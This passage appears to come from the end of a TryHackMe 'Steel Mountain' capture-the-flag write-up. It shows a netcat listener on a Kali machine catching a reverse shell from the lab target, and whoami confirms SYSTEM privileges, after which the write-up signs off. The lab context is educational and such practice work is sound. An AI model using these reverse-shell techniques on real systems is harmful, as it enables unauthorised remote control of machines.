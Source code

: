 <br />
Check the listener and catch the shell.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/thm/steelmountain]
└─$ nc -nlvp 9001                             
listening on [any] 9001 ...
connect to [10.4.119.29] from (UNKNOWN) [10.10.109.201] 49410
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
{% endraw %}

<br />
And here we on top of the mountain.  Hope you enjoyed the climb.  See you in the next one.